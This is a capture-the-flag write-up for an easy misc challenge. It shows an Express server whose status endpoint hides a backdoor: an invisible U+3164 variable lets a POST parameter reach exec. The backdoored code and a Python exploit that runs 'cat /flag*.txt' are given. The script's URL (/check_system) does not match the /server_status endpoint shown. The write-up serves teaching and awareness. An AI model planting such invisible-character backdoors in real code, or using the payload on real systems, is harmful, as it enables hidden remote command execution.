


    	<font size="10">Hidden Path</font>

​		17<sup>th</sup> April 2024

​		Prepared By: ir0nstone

​		Challenge Author(s): ir0nstone

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 


# Synopsis

Hidden Path is an easy difficulty misc challenge that features an JavaScript backdoor utilising invisible Unicode characters. 

# Description

Legends speak of the infamous **Kamara-Heto**, a black-hat hacker of old who rose to fame as they brought entire countries to their knees. Opinions are divided over whether the fabled figure truly existed, but the success of the team surely lies in the hope that they did, for the location of the lost vault is only known to be held on what remains of the NSA's data centres. You have extracted the source code of a system check-up endpoint - can you find a way in? And was Kamara-Heto ever there?

## Skills Required

- Basic JavaScript
- Research

## Skills Learned

- Unicode
- Interacting with HTTP Servers programmatically

# Enumeration

We are given the server code in `app.js`. There are two main endpoints, `/` and `/server_status`. `/` is a GET endpoint that just returns the contents of `index.html`:

```js
app.get('/', async (req, res) => {
    res.sendFile(path.join(__dirname, '/public/html/index.html'));
})
```

Upon connecting to the service, `index.html` loads a selection of radio buttons. Each radio button represents a different command that can be run on the remote server. Upon submission, the `submitCommand()` function in `index.js` is called:

```js
function submitCommand() {
    const radios = document.forms['commandForm'].elements['command'];
    let choiceIndex = -1;

    for (let i = 0; i < radios.length; i++) {
        if (radios[i].checked) {
            choiceIndex = i;
            break;
        }
    }

    if (choiceIndex === -1) {
        return false;
    }

    fetch('/server_status', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `choice=${encodeURIComponent(choiceIndex)}`
    })
    .then(response => response.text())
    .then(data => {
        document.getElementById('response').textContent = data;
    })
    .catch(error => {
        console.error('Error:', error);
        document.getElementById('response').textContent = 'Failed to fetch data';
    });
    return false;
}
```

The code here just sends the index of the command to run. This is a good approach to preventing command injection, as the array of valid commands is predetermined rather than having the command itself be sent.

The `choice` is sent to the `/server_status` endpoint:

```js
app.post('/server_status', async (req, res) => {
    const { choice,ㅤ} = req.body;
    const integerChoice = +choice;
    
    if (isNaN(integerChoice)) {
        return res.status(400).send('Invalid choice: must be a number');
    }

    const commands = [
        'free -m',
        'uptime',
        'iostat',
        'mpstat',
        'netstat',
        'ps aux',ㅤ
    ];

    if (integerChoice < 0 || integerChoice >= commands.length) {
        return res.status(400).send('Invalid choice: out of bounds');
    }

    exec(commands[integerChoice], (error, stdout) => {
        if (error) {
            return res.status(500).send('Error executing command');
        }

        res.status(200).send(stdout);
    });
});
```

The endpoint validates that `choice` is a number, and then that it is in range. If so, it will execute the command using `exec` and send the result back.

# Solution
So where is the vulnerability? Well if we pay attention to the challenge name and description, the idea of a backdoor may come to us. But where is the backdoor?

This challenge takes inspiration from [this article](https://certitude.consulting/blog/en/invisible-backdoor/), which outlines the bulk of the method. The Unicode character `ㅤ` (`U+3164`) looks a lot like a space and is called a _HANGUL FILLER_. Because it is in the category _Letter, other_, JS considers it a valid letter in a variable. In the initial article, VS Code does not note it, but as of [Version 1.63](https://code.visualstudio.com/updates/v1_63#_unicode-highlighting) there is a _Unicode Highlighting_ option on by default that will show it:



Many other tools won't note it, including vim, where it just looks slightly different to a space:



This is especially hidden because a trailing `,` is perfectly valid for JavaScript arrays, making it look like it's just a strange stylistic choice.

So where is this `ㅤ` variable defined? Well from the screenshot we can see that it is here:

```js
const { choice,[HERE]} = req.body;
```

and it is used here:

```js
const commands = [
    'free -m',
    'uptime',
    'iostat',
    'mpstat',
    'netstat',
    'ps aux',[HERE]
];
```

What does this mean? Well, if we rename the variable to `a`, the vector becomes clear:

```js
app.post('/server_status', async (req, res) => {
    const { choice,a} = req.body;
    const integerChoice = +choice;
    
    if (isNaN(integerChoice)) {
        return res.status(400).send('Invalid choice: must be a number');
    }

    const commands = [
        'free -m',
        'uptime',
        'iostat',
        'mpstat',
        'netstat',
        'ps aux',a
    ];

    if (integerChoice < 0 || integerChoice >= commands.length) {
        return res.status(400).send('Invalid choice: out of bounds');
    }

    exec(commands[integerChoice], (error, stdout) => {
        if (error) {
            return res.status(500).send('Error executing command');
        }

        res.status(200).send(stdout);
    });
});
```

It reads `a` from the body of the POST request, and also adds it to the `commands` list (at index `6`)! This means that by defining this hidden variable in the POST request data, we can run our custom command by triggering choice `6` - a valid choice, as the length of the array is actually `7` - which will select our custom command as the parameter to `exec`!

The following Python code will do this for us:

```py
from requests import post

URL = 'http://127.0.0.1:1337/check_system'

params = {
    'choice': 6,
    '\u3164': 'cat /flag*.txt'      # HANGUL FILLER
}

r = post(URL, data=params)
print(r.text)
```

Running it against the remote service, we get the flag!
